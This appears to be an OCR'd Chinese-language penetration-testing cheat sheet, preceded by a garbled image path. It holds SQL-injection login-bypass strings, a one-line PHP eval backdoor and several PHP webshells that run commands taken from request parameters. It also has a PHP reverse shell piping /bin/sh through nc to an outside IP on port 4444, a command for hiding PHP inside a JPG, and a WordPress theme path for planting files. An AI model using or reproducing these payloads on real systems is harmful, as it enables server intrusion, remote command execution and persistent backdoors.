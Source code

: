 ```

' or 1=1;--  

1 or 1=1  

" or ""="

'or 1='1
```
## 一句话木马
<?php @eval($_POST['attack']);?>

php
{ #657503}

<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 61.139.2.129 4444 >/tmp/f');?>

### 执行命令的
{ #8307dd}


```
<?php system($_GET["cmd"]);?>
```
{ #3a4f50}

easy-simple-php-webshell. php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

### 图片马
```
copy /b 1.jpg + 1.php muma.png
```
# wp主题路径
```
/wordpress/wp-content/themes/twentynineteen/文件名
```
